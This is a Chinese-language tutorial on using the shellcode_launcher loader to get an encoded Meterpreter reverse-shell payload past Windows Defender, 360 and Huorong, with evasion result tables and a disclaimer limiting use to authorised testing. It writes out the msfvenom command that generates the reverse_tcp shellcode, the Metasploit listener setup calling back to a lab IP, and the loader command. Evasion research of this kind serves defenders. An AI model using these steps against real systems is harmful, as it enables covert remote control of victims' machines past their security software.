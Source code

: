 # 老树开新花之shellcode_launcher免杀Windows Defender


# 1. 说明
本文的所有技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。本文所提供的工具仅用于学习，禁止用于其他，请在24小时内删除工具文件！！！
​

工具估计已经失效！！！仅供参考！

工具详细信息：https://mp.weixin.qq.com/s/MHZT_Z2dA4FvzAytfdyuGQ

# 2. 免杀效果

2.1 **静态免杀**

| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



2.2 **动态免杀效果（指的是可执行命令）**



| 杀软\免杀效果 | 虚拟机环境：Windows 10 | 虚拟机环境：Windows 7 | 虚拟机环境：Windows server 2019 | 最新测试时间 |
| --- | --- | --- | --- | --- |
| 联网Windows Defender最新版
（关闭自动发送可疑样本） | ✅ | 未测 | ✅ | 2022.01.16 |
| 联网360最新版 | ✅ | ✅ | 未测 | 2022.01.16 |
| 联网火绒最新版 | 未测 | ✅ | ✅ | 2022.01.16 |



# 3. 使用方法

## 3.1 生成shellcode


首先用`Msfvenom`生成`raw`格式的`shellcode`，当前使用了`shikata_ga_na`编码模块：
生成的监听机器为`mac`，ip为`10.211.55.2`，端口：`1234`
```python
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=1234  -f raw -o shellcode.raw
```


![image.png](https://cdn.nlark.com/yuque/0/2021/png/8378754/1624029949030-29b5ec73-29f9-4dd5-bbb5-9df94dfc7d5c.png)


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254398164-01112f0c-11e8-4120-b0ec-a2688a793f5f.png)



`攻击机`上开启`msf`进行监听：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254739820-a3e5c5f4-96fb-4a1e-bf05-ca5490f232f1.png)


```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.211.55.2
LHOST => 10.211.55.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.211.55.2:1234
```


然后执行`shellcode_launcher`加载器：
​

`shellcode_launcher.exe -i shellcode.raw`




![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254817035-52bf769c-f47c-4e17-aa8c-f2a3d5522c2b.png)


此时`mac`收到会话，并且可以正常执行命令：


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642254854246-23fcff1e-1e3f-479e-9ffe-6c336e9ec58c.png)




## 3.2 **Bypass 火绒**
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267625868-5d78bf6e-2fc1-4b85-a3e5-608d53f34975.png)


## 3.4 Bypass Win Defender & 360


![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642267849841-c2806bda-7b40-4cef-8e0a-dc3bee308355.png)




# 4. 总结
## 4.1 免杀情况

直接整理为图片吧：
![image.png](https://cdn.nlark.com/yuque/0/2022/png/8378754/1642276998283-fefa0675-7c6c-4d40-9002-0a55f09f6d29.png)






## 4.2 缺点


在本文中，基本没有对作者的源代码进行分析，这里主要是因为篇幅太长，不适合进一步分析，其实可以在作者的基础上延伸一些更加好的方法，本文免杀中存在待优化的问题：

1. 使用`msfvenom`生成的`shellcode`会被一部分杀软标记，这些东西其实深入探究源码之后，去除特征并不算难解决。
1. 在这里看到静态免杀还是比较容易的，但是如果是执行命令等动态操作，基本上都会被优秀的杀软识别，所以在免杀上过动态检测才是研究免杀的关键。



本文在写文章的时候，可能还存在一定的问题，希望各位师傅能够批评指正，不胜感激！
​



